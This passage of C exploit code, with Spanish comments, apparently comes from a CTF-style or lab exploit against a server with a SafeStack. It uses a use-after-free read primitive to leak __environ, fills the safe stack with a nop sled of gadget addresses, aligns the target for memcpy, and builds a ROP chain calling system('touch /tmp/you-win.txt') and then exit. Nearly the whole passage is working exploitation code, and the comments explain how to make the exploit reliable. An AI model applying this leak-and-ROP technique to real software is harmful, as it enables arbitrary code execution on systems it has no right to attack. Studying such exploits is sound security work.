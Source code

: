 ```c
  uint64_t addr_environ = addr_libc_stack_end + 0x18;

  printf("[*] ... addr_environ:\n");
  printf("[-] ... 0x%lx\n", addr_environ);
  printf("[-] \n");

  printf("[*] Leyendo __environ...\n");

  read_from(addr_environ, 8, vptr_GrayscaleImage, uaf_handle);
  uint64_t addr_ss_env = ((uint64_t*)response_buffer)[0];

  printf("[*] ... addr_ss_env:\n");
  printf("[-] ... 0x%lx\n", addr_ss_env);
  printf("[-] \n");


  /* El safe stack tiene algo de entropía interna, aunque no es suficiente
   * para prevenir un ataque exitoso. En vez de escribir a partir de una
   * dirección de retorno particular, lo que haremos es llenar el safe
   * stack de direcciones de gadgets nop hasta el inicio de las variables
   * de entorno. Por mera inspección en gdb, notamos que la distancia desde 
   * la dirección de retorno de handle_request hasta addr_ss_env es 
   * inferior a 0x2000, al menos usualmente, con lo cuál un nopsled de 
   * 0xff00 bytes debería ser más que suficiente para hacer al exploit 
   * confiable. El tamaño del safe stack es mucho mayor a 0xff00 bytes, 
   * con lo cuál la escritura a partir de addr_ss_env - sizeof_nopsled 
   * debería ser segura.
   *
   * Nótese que nuestra primitiva de escritura está limitada a 0xffff
   * bytes, con lo cuál debemos dejar algo de espacio adicional para
   * la cadena de ROP, la cuál ocupará unos 0x40 bytes. Alternativamente,
   * deberíamos ejecutar la primitiva de escritura varias veces
   * para lograr copiar la totalidad de los datos.
   *
   */
  uint64_t sizeof_nopsled = 0xff00;
  uint64_t addr_chain = addr_ss_env - sizeof_nopsled;

  /* Resulta que memcpy usa instrucciones xmm que fallan si la dirección de
   * destino no está alineada a 16 bytes. Para resolver el problema, alineamos
   * la dirección a partir de la cuál escribir a 16. Ya que estaremos usando
   * un nopsled, la precisión no es demasiado importante.
   *
   */
  addr_chain >>= 8; // Limpiamos los 8 bits menos significativos.
  addr_chain <<= 8;

  /* Preparamos el payload de la cadena de ROP. Se trata de una llamada
   * a system que creará un archivo vacío llamado you-win.txt en /tmp, y 
   * luego finalizará la ejecución llamando a exit.
   *
   */
  uint64_t payload[] = {
    addr_system - 0x2dee1,                // pop rdi; ret
    addr_chain + sizeof_nopsled + 0x20,   // &"touch /tmp/you-win.txt"
    addr_system,
    addr_system - 0xc320,                 // &exit
    0,                                    // "touch /tmp/you-win.txt", ver abajo
    0,
    0,
    0,
  };

```